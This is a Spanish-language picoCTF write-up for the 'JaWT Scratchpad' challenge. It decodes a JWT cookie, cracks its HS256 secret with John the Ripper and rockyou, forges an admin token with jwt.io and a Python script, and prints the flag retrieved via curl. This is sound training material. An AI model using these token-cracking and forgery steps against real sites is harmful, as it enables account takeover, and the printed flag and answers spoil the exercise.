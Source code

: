 # JaWT Scratchpad

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/63090/` or http://jupiter.challenges.picoctf.org:63090

- hints
	- What is that cookie?
	- Have you heard of JWT?


## Solución
#### Explicar los antecendentes
- Qué es un token JWT 
	- google: jwt, intro explicar sus 3 partes: https://jwt.io/introduction

- Al inicio aparece esto
```
JaWT

powered by JWT
Welcome to JaWT!

JaWT is an online scratchpad, where you can "jot" down whatever you'd like! Consider it a notebook for your thoughts. JaWT works best in Google Chrome for some reason.

You will need to log in to access the JaWT scratchpad. You can use any name, other than admin... because the admin user gets a special scratchpad!

[                  ]

Register with your name!

You can use your name as a log in, because that's quick and easy to remember! If you don't like your name, use a short and cool one like John!

```
- Si intento loguerme como admin, me sale mensaje
```
 YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT. 
```

- Asi que usamos otro nombre de usuario diferente: carlos
```
## Hello carlos!

Here is your JaWT scratchpad!

  
[logout]
```

- miramos la cookie que se formo, con el cookie editor:
```
name:jwt
value: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2FybG9zIn0.ibA8ZjnNXLYfuOIQWln6-CmmzUhw-bsu3BivkwnNYDk
```
- Intentamos decodificarlo de base 64, para entenderlo
```bash
❯ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiSm9obiJ9.K1Omo0Gk5saKwJTkkgT7PUZohD7USknEE0lmT2AYAiM" | base64 -d
Invalid character in input stream.
❯ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
{"typ":"JWT","alg":"HS256"}%                                                                                                                        ❯ echo "eyJ1c2VyIjoiSm9obiJ9" | base64 -d
{"user":"John"}%                                                                                                                                    ❯ echo "K1Omo0Gk5saKwJTkkgT7PUZohD7USknEE0lmT2AYAiM" | base64 -d
+S??A??Ɗ????=Fh?>?JI?IfO`%    
```

- lo llevamos al jwt.io , y cambio por admin, meto a la cookie, refresco, no jala por que requiero la firma:

```
Internal Server Error

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

### Crackerar la firma
- En la parte de abajo sugiere john como nombre, es una pista
- hay que llevarse la parte de la firma a crackar con jhon
 
	. google: https://www.openwall.com/john/
	. ver los parametros en la consola: john
	. explicar rockyou , desempacarlo, mostrar su contenido
	. desempacar
	john hash -w=/usr/share/wordlists/r.txt

```bash
──(kali㉿kali)-[~]
└─$ cat hash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2FybG9zIn0.ibA8ZjnNXLYfuOIQWln6-CmmzUhw-bsu3BivkwnNYDk
                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:01 DONE (2022-09-12 23:51) 0.6756g/s 4998Kp/s 4998Kc/s 4998KC/s iloverob4live345..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

- el pass resulto ser:  ilovepico

### Frimar token de admin

. una vez con la llave, regresar a jwt.io, desencriptar el jwt
. ponerle admin, volverlo a encriptar con la llave


### Loquearse
. llevarlo ala cookie y loguerase
- refrescar a pagina

```
## Hello admin!

Here is your JaWT scratchpad!

picoCTF{jawt_was_just_what_you_thought_f859ab2f}
```


## Consola
```bash
curl -s http://jupiter.challenges.picoctf.org:63090/ -H "Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s" | grep pico
					<textarea style="margin: 0 auto; display: block;">picoCTF{jawt_was_just_what_you_thought_f859ab2f}</textarea>

```
### Solucion 2 python

```
import jwt

clave = "ilovepico"

payload = {
        "user": "admin"
}

token = jwt.encode(payload, clave, algorithm="HS256")

print(token)



```


```
curl -s http://jupiter.challenges.picoctf.org:61864/ -H "Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.di2J1a0H3IhZtGmIfw7ltVq7sZL2orh8WIP1isDkgdw" | grep pico

```
## Referencias

- https://jwt.io/
- https://jwt.io/introduction

- JSON: https://en.wikipedia.org/wiki/JSON
- JWT : https://jwt.io/introduction
- jwt.io : https://jwt.io/#debugger-io
- john : https://github.com/openwall/john
